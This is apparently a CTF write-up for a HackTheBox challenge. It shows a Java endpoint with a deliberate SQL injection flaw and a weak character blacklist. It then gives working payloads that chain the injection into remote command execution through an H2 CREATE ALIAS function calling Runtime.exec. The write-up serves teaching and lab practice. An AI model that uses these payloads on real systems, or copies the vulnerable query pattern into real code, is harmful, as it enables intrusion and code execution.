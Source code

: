 
---

# Pentest Notes: SQLi to RCE via H2 Database ALIAS

## Overview
We discovered a SQL injection vulnerability in a note retrieval function. The initial access is gained through a default user account (`user`, `123`)

```sql
INSERT INTO users (id, username, password) VALUES (1, 'user', '123');
```

## Vulnerable Endpoint
The vulnerable Java endpoint is implemented as follows:

```java
@PostMapping("/note")
public ResponseEntity<?> noteByName(@RequestParam String name, HttpSession httpSession) {
    if (httpSession.getAttribute("username") == null) {
        return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
    }
    if (name.contains("$") || name.toLowerCase().contains("concat")) {
        return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
    }
    String query = String.format("Select * from notes where name ='%s' ", name);
    List<Object[]> resultList = entityManager.createNativeQuery(query).getResultList();
    List<Map<String, Object>> result = new ArrayList<>();
    for (Object[] row : resultList) {
        Map<String, Object> rowMap = new HashMap<>();
        rowMap.put("ID", row[0]);
        rowMap.put("Name", row[1]);
        rowMap.put("Note", row[2]);
        result.add(rowMap);
    }
    return ResponseEntity.ok(result);
}
```

### Analysis
- **SQL Injection:**  
  The `name` parameter is directly injected into the SQL query without proper sanitization, allowing SQL injection. For example, injecting:
  
  ```
  ' OR 1=1;-- 
  ```
  
  returns all notes.
![Executin](https://github.com/tunsimp/CTF/blob/main/HTB/Pentest%20Notes/SQLI.png)
- **Restricted Characters:**  
  The code checks for the presence of `$` and the keyword `concat` (in any case) to block certain payloads. However, these restrictions can be bypassed since they aren’t needed for creating a function alias.

## Chaining SQLi to RCE with H2 ALIAS
We can leverage a vulnerability in H2 databases that allows us to create a Java ALIAS to execute system commands.

### Step 1: Creating the ALIAS
Using SQL injection, we inject the following payload to create an alias named `EXECVE`:

```sql
'CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}';--
```

*Note:*  
Since `CREATE ALIAS` expects a string parameter, we don’t need to use `$`, and the restriction on `concat` is irrelevant in this context.

### Step 2: Executing the Function
Once the alias is created, we can chain another SQL injection payload to call the function. For example, to list directory contents:

```sql
' UNION SELECT NULL, NULL, EXECVE('ls') AS note;--
```

This payload ensures that the number of columns match (two `NULL` values followed by the function call result), thereby executing the command and displaying its output.
![Executin](https://github.com/tunsimp/CTF/blob/main/HTB/Pentest%20Notes/screenshot.png)

---

